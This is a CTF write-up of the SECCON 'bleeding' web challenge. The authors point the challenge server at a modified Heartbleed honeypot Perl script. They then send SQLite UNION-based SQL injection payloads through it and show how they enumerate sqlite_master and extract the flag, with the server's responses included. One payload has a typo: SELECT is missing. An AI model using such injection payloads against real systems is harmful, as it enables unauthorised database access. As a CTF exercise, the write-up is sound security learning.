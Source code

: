 This one was a really fun challenge! 

We solved it very quickly with my teammate [XeR](https://twitter.com/XeR_0x2A).

We were given this [http://bleeding.pwn.seccon.jp/](http://bleeding.pwn.seccon.jp/)

![alt text](http://saxx.swordarmor.fr/CTF/web300_heartbleed.png "Web Interface")

After a quick investigation, we figured out that it was a [sqli injection](https://www.owasp.org/index.php/SQL_Injection). 
If we made a correct request, there was some response back from the server which was echoed through a html comment.

```html
<!-- DEBUG: INSERT OK. TIME=1417995590 -->
```

Because this chall was relative to [the famous Heartbleed vuln](http://heartbleed.com/), we downloaded this [honeypot perl script](http://packetstormsecurity.com/files/126068/Heartbleed-Honeypot-Script.html).
Then, we made some modifications and then launched it with:

```bash
$ perl heartbleed_honeypot_web300.pl 
```

After those modifications, we made a request to [http://bleeding.pwn.seccon.jp/?ip=OUR_IP&port=31337](http://bleeding.pwn.seccon.jp/?ip=OUR_IP&port=31337)

Once, again we figured out quickly that it's was an [unband sqli injection or union sqli based](http://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/).
And that we were dealing with a [sqlite database](http://www.sqlite.org/).

**NOTA: In my opinion, there's no much and some good sqlite cheatsheets dealing to sqlite injection. I'll probably make one if I've some time.**

Ok, so in order to grab the flag, we've change respectively in the perl script the **$taunt** param by these following payloads:

```perl
my $taunt = "-1' UNION SELECT sqlite_version() /*"; 
```

```html
<!-- DEBUG: INSERT OK. TIME=3.6.20 -->
```

```perl
my $taunt = "-1' union  group_concat(name) FROM sqlite_master WHERE type='table' /*";
```

```html
<!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt -->
```

```perl
my $taunt = "-1' union select group_concat(sql) FROM sqlite_master /*";
```

```html
<!-- DEBUG: INSERT OK. TIME=CREATE TABLE results ( time, host, result ),CREATE TABLE ssFLGss ( flag ),CREATE TABLE ttDMYtt ( dummy ) -->
```

```perl
my $taunt = "-1' union select flag FROM ssFLGss /*";
```

```html
<!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
```

Have fun :)
